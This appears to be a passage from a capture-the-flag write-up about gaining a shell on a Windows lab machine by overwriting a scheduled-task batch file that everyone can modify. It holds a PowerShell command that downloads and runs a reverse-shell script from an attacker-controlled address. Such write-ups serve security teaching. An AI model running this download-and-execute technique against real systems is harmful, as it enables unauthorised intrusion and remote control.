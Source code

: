 There's a batch file present that looks like its part of a scheduled task, and we have modify permissions on it:

```
PS C:\users\decoder> type clean.bat
@echo off 
del /q /s c:\users\decoder\appdata\local\TEMP\*.tmp 
exit 
  
PS C:\users\decoder> icacls clean.bat
clean.bat Everyone:(M)
          NT AUTHORITY\SYSTEM:(I)(F)
          FIGHTER\decoder:(I)(F)
          BUILTIN\Administrators:(I)(F
```

Normally, I would append something to the end of the file and get it to execute, however, there's an `exit` call which would prevent me from exploiting that.&#x20;

Normally we cannot overwrite the file without write permissions, but modify allows us to use `copy` to change the file.&#x20;

{% embed url="https://stackoverflow.com/questions/45141044/cmd-copy-null-to-multiple-files" %}

```
PS C:\users\decoder> cmd /c copy /Y NUL clean.bat
        1 file(s) copied.
PS C:\users\decoder> cat clean.bat
```

Now, we can write anything we want to this file. We can `echo` in the same shell we used earlier:

{% code overflow="wrap" %}
```
cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/REV.PS1') >> clean.bat"
```
{% endcode %}

After waiting for a while, we would get a `decoder` shell:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

### Driver Exploit --> SYSTEM
